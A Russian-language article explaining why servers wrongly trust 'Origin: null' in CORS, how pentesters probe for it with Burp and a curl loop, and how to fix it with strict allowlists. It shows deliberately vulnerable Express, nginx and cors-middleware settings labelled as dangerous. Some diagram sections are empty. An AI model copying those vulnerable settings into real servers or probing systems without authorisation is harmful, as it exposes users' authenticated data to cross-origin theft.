## Реальные причины появления бага

`Origin: null` попадает в whitelist на продакшн-серверах не из-за одной конкретной ошибки. Это комбинация практик, каждая из которых по отдельности кажется разработчику безобидной.

### 1. Добавление null «для локальной разработки»

Разработчик тестирует фронтенд, открывая файлы через `file://` или запуская в iframe с sandbox. Браузер отправляет `Origin: null`. Чтобы не разбираться с конфигурацией, разработчик добавляет `"null"` в whitelist. Потом забывает убрать перед деплоем.

```javascript
// Так выглядит типичный баг
const ALLOWED_ORIGINS = [
  process.env.PROD_ORIGIN,      // "https://company.com"
  process.env.STAGING_ORIGIN,   // "https://staging.company.com"
  "null"                        // "убрать перед продом" — и не убирают
];
```

{: .notice--danger}
**Типичная ошибка.** Комментарий «временно» живёт в коде месяцами. Code review не замечает, потому что строка `"null"` визуально слипается с остальным whitelist.

### 2. Отражение Origin без фильтрации

Вместо whitelist разработчик просто копирует заголовок `Origin` из запроса в `Access-Control-Allow-Origin` ответа. Это «работает» — любой origin получает доступ. Включая `null`.

```javascript
// Нельзя так делать
app.use((req, res, next) => {
  res.setHeader("Access-Control-Allow-Origin", req.headers.origin || "*");
  res.setHeader("Access-Control-Allow-Credentials", "true");
  next();
});
```

Вариант через nginx, который встречается ещё чаще:

```nginx
add_header Access-Control-Allow-Origin $http_origin always;
add_header Access-Control-Allow-Credentials true always;
```

{: .notice--danger}
**Типичная ошибка.** `$http_origin` — это переменная nginx, содержащая заголовок Origin из запроса. Она копируется в ответ «как есть». Любой origin, включая `null`, отражается без проверки.

### 3. Слепое доверие библиотекам

Некоторые CORS-middleware имеют небезопасные настройки по умолчанию. Например, пакет `cors` для Node.js при `origin: true` отражает любой origin:

```javascript
// express + cors middleware
const cors = require('cors');

// Вариант с рефлексией — опасно
app.use(cors({
  origin: true,                    // отражает любой origin
  credentials: true                 // + разрешает credentials
}));
```

`origin: true` документировано как «динамическая проверка». На практике это значит: «вернуть заголовок `Origin` запроса без какой-либо фильтрации». Разработчик видит в документации «set to true to reflect the request origin» и не осознаёт, что `null` тоже будет отражён.

Аналогичные проблемы в других экосистемах:

- **Django CORS Headers**: настройка `CORS_ALLOW_ALL_ORIGINS = True` + `CORS_ALLOW_CREDENTIALS = True`. Django блокирует эту комбинацию (не позволяет отправить оба), но если origins указаны явно и включают `null` — защита не сработает.
- **Spring Boot (Java)**: `@CrossOrigin(originPatterns = "*")` отражает любой origin. В сочетании с `allowCredentials = true` это создаёт уязвимость.

{: .notice--info}

### 4. Историческое наследие

До массового внедрения `SameSite` cookies (2020 год) many-приложения использовали `Origin: null` в whitelist без последствий — потому что атаки через sandbox iframe требовали, чтобы cookies отправлялись в кросс-доменном контексте, а старые браузеры это разрешали. Когда Chrome ввёл `SameSite=Lax` по умолчанию, многие разработчики переключили cookies на `SameSite=None; Secure` (чтобы фронтенд на другом домене мог отправлять API-запросы). Это inadvertently открыло вектор для `Origin: null` — cookies стали отправляться из iframe.

### 5. Неверная конфигурация reverse proxy

Когда перед приложением стоит nginx, Cloudflare или другой прокси, возможны конфликты конфигураций. Например:

- Nginx добавляет `Access-Control-Allow-Origin: *`
- Приложение за nginx перезаписывает заголовок на конкретный origin
- Или наоборот: приложение устанавливает правильный заголовок, а nginx перезаписывает его на `*`

В таких случаях разработчик может подумать, что CORS настроен правильно (потому что в коде приложения всё верно), а реальный ответ содержит небезопасный заголовок.

### 6. Regex вместо whitelist

Иногда вместо явного списка origins используют регулярное выражение:

```javascript
const originRegex = /^(https?:\/\/)?(.*\.)?company\.com$/;
if (originRegex.test(req.headers.origin)) {
  res.setHeader("Access-Control-Allow-Origin", req.headers.origin);
}
```

Проблема: `null` **не проходит** это regex (потому что не содержит `company.com`). Но если regex написан небрежно — например, разрешает пустое значение или использует `.*` — могут появиться побочные совпадения.

## Как искать эту уязвимость

Раздел для bug bounty исследователей и пентестеров.

### Инструменты

**Burp Suite** — основной инструмент. Нужны модули Repeater и Proxy.

### Методика проверки

**Шаг 1.** Настроить Proxy в Burp. Открыть целевой сайт через браузер с проксированием.

**Шаг 2.** Найти endpoints, которые отвечают интересными данными: `/api/user/me`, `/api/profile`, `/api/settings`, `/api/balance`.

**Шаг 3.** В Burp Repeater отправить запрос к endpoint с заголовком:

```http
GET /api/user/me HTTP/1.1
Host: api.target.com
Origin: null
Cookie: session=your_session
```

**Шаг 4.** Проверить ответ:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null    <-- БИНГО
Access-Control-Allow-Credentials: true  <-- критично
```

Если оба заголовка присутствуют — уязвимость подтверждена.

**Шаг 5.** Также проверить варианты:

```http
Origin: null
Origin: Null
Origin: NULL
```

Некоторые реализации делают case-sensitive сравнение. Обычно это не имеет значения (HTTP-заголовки case-insensitive), но стоит проверить.

### Дополнительные проверки

- **Preflight.** Отправить `OPTIONS` с `Origin: null` и проверить, passes ли preflight.
- **Разные endpoints.** CORS может быть настроен по-разному для разных путей. Проверить все API-endpoints.
- **Субдомены.** Если `null` не проходит, попробовать `http://null` (без схемы https) или другие варианты.

{: .notice--warning}
**На заметку исследователю.** При отчёте в bug bounty программу не забудьте указать: (1) какой endpoint уязвим, (2) какие данные можно получить, (3) нужен ли авторизованный пользователь, (4) есть ли preflight. Это ускорит триаж.

### Автоматизация поиска

Для массовой проверки endpoints можно использовать Burp Intruder или пользовательские расширения:

```bash
# Пример: массовая проверка через curl
for endpoint in $(cat endpoints.txt); do
  echo "Testing $endpoint"
  curl -s -I -H "Origin: null" -H "Cookie: session=test" "$endpoint" | grep -i "access-control-allow-origin"
done
```

В Burp Suite можно настроить автоматическую подстановку `Origin: null` во все запросы через Match & Replace в Proxy settings. Это позволяет проверять все проходящие запросы без ручного вмешательства.

### Что проверять в ответе

При анализе ответа обращайте внимание на:

1. **`Access-Control-Allow-Origin: null`** — подтверждает доверие к null
2. **`Access-Control-Allow-Credentials: true`** — критично для эксплуатации, без него cookies не отправляются
3. **`Access-Control-Expose-Headers`** — какие заголовки ответа доступны JavaScript
4. **Тело ответа** — что именно возвращает endpoint. Персональные данные? API-ключи? Токены?


## Как исправить

### Правило 1: никогда не доверять null

`null` не должен быть в whitelist. Никогда. Ни для локальной разработки (используйте dev-сервер), ни для «обратной совместимости».

```javascript
// БЕЗОПАСНЫЙ КОД
const ALLOWED_ORIGINS = [
  "https://company.com",
  "https://app.company.com",
  "https://staging.company.com"
];

const origin = req.headers.origin;

// Явная проверка: null не пройдёт
if (ALLOWED_ORIGINS.includes(origin)) {
  res.setHeader("Access-Control-Allow-Origin", origin);
  res.setHeader("Access-Control-Allow-Credentials", "true");
}
```

### Правило 2: не отражать Origin автоматически

```javascript
// ОПАСНО
res.setHeader("Access-Control-Allow-Origin", req.headers.origin);

// БЕЗОПАСНО — только из whitelist
if (isAllowed(origin)) {
  res.setHeader("Access-Control-Allow-Origin", origin);
}
```

### Правило 3: использовать строгий whitelist

Проверять origin полностью — scheme, host, port. Не использовать regex, если это не необходимо. Не использовать `endsWith`, `includes`, `startsWith`.

```javascript
// НЕБЕЗОПАСНО — поддоменный захват через evil-company.com
if (origin.endsWith(".company.com")) { ... }

// БЕЗОПАСНО — точное совпадение
const ALLOWED = new Set([
  "https://company.com",
  "https://app.company.com"
]);
if (ALLOWED.has(origin)) { ... }
```

### Правило 4: добавить Vary: Origin

Если сервер возвращает разный `Access-Control-Allow-Origin` в зависимости от origin запроса, обязательно добавляйте:

```http
Vary: Origin
```

Это предотвращает кэширование неправильного значения.

### Правило 5: проверка конфигурации nginx

```nginx
# ОПАСНО — никогда так не делайте
add_header Access-Control-Allow-Origin $http_origin always;

# БЕЗОПАСНО — использовать map с whitelist
map $http_origin $cors_origin {
    default          "";
    "https://company.com"    "https://company.com";
    "https://app.company.com"  "https://app.company.com";
}

# И-condition: только если origin известен
add_header Access-Control-Allow-Origin $cors_origin always;
add_header Access-Control-Allow-Credentials true always;
```

Когда `$cors_origin` пустой (origin не в whitelist), заголовок `Access-Control-Allow-Origin` не будет установлен (пустое значение в nginx не добавляет заголовок). Браузер увидит отсутствие заголовка и заблокирует чтение ответа.

### Сравнение: уязвимый vs безопасный сервер

```javascript
// ═══ УЯЗВИМЫЙ СЕРВЕР ═══
app.use(cors({
  origin: true,           // отражает любой origin, включая null
  credentials: true
}));

// ═══ БЕЗОПАСНЫЙ СЕРВЕР ═══
app.use((req, res, next) => {
  const origin = req.headers.origin;
  const allowed = ["https://company.com", "https://app.company.com"];
  
  if (allowed.includes(origin)) {
    res.setHeader("Access-Control-Allow-Origin", origin);
    res.setHeader("Access-Control-Allow-Credentials", "true");
    res.setHeader("Vary", "Origin");
  }
  next();
});
```

{: .notice--info}


## Состояния CORS-проверки



{: .notice--info}

## Процесс принятия решения браузером



Блок-схема выше показывает полный путь принятия решения. Ключевой узел — проверка `ACAO === Origin`. Когда оба значения равны `null`, браузер считает ответ разрешённым. Нет никакой дополнительной валидации «надёжности» origin.

{: .notice--warning}
**Важно.** Браузер не различает «настоящий» origin и `null`. Для него `null` — это валидная строка. Если сервер говорит «я доверяю null», браузер выполняет свою часть контракта и разрешает чтение.

## Итоги

`Origin: null` — это не теоретическая проблема. Это реальная уязвимость, которая возникает из-за комбинации двух факторов: **браузер честно отправляет `null` когда не может определить origin**, и **сервер по ошибке включает `null` в whitelist**.

Механизм работы:

1. JavaScript выполняется в изолированном контексте (sandbox iframe, `srcdoc`, `data:` URI, `file://`)
2. Браузер не может определить настоящий origin и отправляет `Origin: null`
3. Сервер проверяет whitelist, находит `null` и отвечает `Access-Control-Allow-Origin: null` с `Access-Control-Allow-Credentials: true`
4. Браузер проводит строковое сравнение: `null` === `null` → совпадение
5. JavaScript атакующего получает полный доступ к ответу, включая данные авторизованного пользователя

Для защиты достаточно одного правила: **`null` никогда не должен быть доверенным origin**. Сервер должен проверять origin по строгому whitelist конкретных origins. Не отражать заголовок автоматически. Не использовать `origin: true` в CORS-middleware с `credentials: true`. Не добавлять `null` «для локалки» в продакшн-конфигурацию. Не копировать `$http_origin` в nginx без фильтрации.

---

**AZAR**
